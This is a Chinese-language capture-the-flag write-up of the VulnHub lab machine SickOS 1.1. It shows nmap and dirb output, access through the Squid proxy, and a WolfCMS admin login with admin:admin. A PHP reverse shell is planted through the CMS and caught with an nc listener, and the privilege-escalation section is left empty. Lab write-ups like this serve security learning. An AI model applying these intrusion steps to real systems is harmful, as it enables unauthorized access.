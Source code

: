 ```yaml
---
title: Vulnhub-SICKOSv1.1通关记录
tags:
  - vulnhub
  - SickOS
categories: WriteUp
keywords: vulnhub
description: 本文记录了作者在通关vulnhub靶机SICKOSv1.1中遇到的问题以及踩坑后的解决方案。
top_img: https://pic.imgdb.cn/item/64aae46e1ddac507cc3c4359.jpg
cover: https://pic.imgdb.cn/item/64aae46e1ddac507cc3c4359.jpg
date: 2023-09-11 15:32:20
---
```


## 靶机信息

靶机 IP ：192.168.213.130

靶机介绍：This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them.

## 信息收集

### 端口发现和服务探测

使用 Nmap 基于 TCP 协议扫描端口：

```
$ sudo nmap -sT -p- --min-rate 10000 192.168.213.130 -oN nmapscan/portscan.txt
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 04:01 EDT
Nmap scan report for 192.168.213.130
Host is up (0.00061s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
3128/tcp open   squid-http
8080/tcp closed http-proxy
MAC Address: 00:0C:29:74:56:35 (VMware)
```

发现 22，3128，8080 端口是打开的，进一步扫描对应端口的服务：

```
$ sudo nmap -sT -p 22,3128,8080 -sV -sC -O 192.168.213.130 -oN nmapscan/servscan.txt
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-13 01:52 EDT
Nmap scan report for 192.168.213.130
Host is up (0.00037s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 093d29a0da4814c165141e6a6c370409 (DSA)
|   2048 8463e9a88e993348dbf6d581abf208ec (RSA)
|_  256 51f6eb09f6b3e691ae36370cc8ee3427 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.1.19
8080/tcp closed http-proxy
MAC Address: 00:0C:29:74:56:35 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.16 seconds
```

探测完服务和端口后，可以得出以下结论：
1. 3128端口运行着 Squid 服务<sup>[①](#Squid-服务)</sup>，其运行版本为 3.1.19。
2. 8080端口存在服务，但端口关闭，不允许外界访问

### 通过代理访问目标网页

尝试使用 `curl` 命令，通过代理的方式访问8080端口，但仍旧失败。

``` bash
curl --proxy http://192.168.213.130:3128 http://192.168.213.130:8080
```

根据[提醒](https://www.bilibili.com/video/BV1Em4y1A7XX?t=1058.7)，爆破网页目录试试

```
$ sudo dirb http://192.168.213.130 -p http://192.168.213.130:3128

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Oct 20 04:56:57 2023
URL_BASE: http://192.168.213.130/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
PROXY: http://192.168.213.130:3128

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.213.130/ ----
+ http://192.168.213.130/cgi-bin/ (CODE:403|SIZE:291)
+ http://192.168.213.130/connect (CODE:200|SIZE:109)
+ http://192.168.213.130/index (CODE:200|SIZE:21)
+ http://192.168.213.130/index.php (CODE:200|SIZE:21)
+ http://192.168.213.130/robots (CODE:200|SIZE:45)
+ http://192.168.213.130/robots.txt (CODE:200|SIZE:45)
+ http://192.168.213.130/server-status (CODE:403|SIZE:296)
-----------------
END_TIME: Fri Oct 20 04:57:00 2023
DOWNLOADED: 4612 - FOUND: 7
```

再次使用 `curl` 命令测试，发现能够正常访问目标网页了，成功通过代理绕过端口限制。

```bash
$ curl --proxy http://192.168.213.130:3128 http://192.168.213.130/index.php
<h1>
BLEHHH!!!
</h1>
```

配置浏览器 `SwitchOmega` 插件，根据目录爆破的结果，访问 `/robots` 文件，获得以下信息：

```
$ curl --proxy http://192.168.213.130:3128 http://192.168.213.130/robots   
User-agent: *
Disallow: /
Dissalow: /wolfcms
```

## 获取立足点

### 弱口令登录网站后台

根据上文获得的信息，直接访问 `/wolfcms` ，可以观察到如下页面。

![pic1](https://pic.imgdb.cn/item/65324464c458853aef8ab069.jpg)

使用 `searchsploit` 发现 Wolfcms存在历史漏洞，但是三个历史漏洞都缺乏利用条件，无法正常利用。

![pic2](https://pic.imgdb.cn/item/6536404bc458853aef4818d7.jpg)

依次将利用脚本拷贝到本地，分别检查的时候发现 Wolfcms 的后台登录界面：`http://[URL]/wolfcms/?/admin/login` , 打开后使用弱口令 `admin:admin` 成功登录后台

![pic3](https://pic.imgdb.cn/item/65363f78c458853aef465d48.jpg)

### 获取机器权限

浏览后台界面，发现在Snippets和Layouts处都可以写入 PHP 代码，因此直接写入大马反弹shell。此处使用的是 [revshells.com](https://www.revshells.com/) 自动生成的 PHP 大马。然后再打开插入了木马的文章，成功反弹shell。

![pic4](https://pic.imgdb.cn/item/65378393c458853aef7a311f.jpg)

回连的信息如下：

```
$ nc -lvnp 10234      
listening on [any] 10234 ...
connect to [192.168.213.129] from (UNKNOWN) [192.168.213.130] 49343
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 athlon i386 GNU/Linux
 18:09:34 up  6:48,  0 users,  load average: 0.00, 0.01, 0.03
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: no job control in this shell
www-data@SickOs:/$ 
```

## 提权


## 注释

### Squid 服务

>**Squid** is a caching and forwarding HTTP web proxy. It has a wide variety of uses, including speeding up a web server by caching repeated requests, caching web, DNS and other computer network lookups for a group of people sharing network resources, and aiding security by filtering traffic. Although primarily used for HTTP and FTP, Squid includes limited support for several other protocols including Internet Gopher, SSL, TLS and HTTPS. Squid does not support the SOCKS protocol, unlike Privoxy, with which Squid can be used in order to provide SOCKS support. (From [here](https://en.wikipedia.org/wiki/Squid_(software))).

Squid Cache（简称为 Squid ）是 HTTP 代理服务器软件。Squid 用途广泛，可以作为缓存服务器，可以过滤流量帮助网络安全，也可以作为代理服务器链中的一环，向上级代理转发数据或直接连接互联网。Squid 程序在 Unix 一类系统运行。由于它是开源软件，有网站修改 Squid 的源代码，编译为原生 Windows 版；用户也可在Windows 里安装 Cygwin ，然后在 Cygwin 里编译 Squid 。  
Squid 历史悠久，功能完善。除了 HTTP 外，对 FTP 与 HTTPS 的支持也相当好，在3.0 测试版中也支持了 IPv6 。但是 Squid 的上级代理不能使用 SOCKS 协议。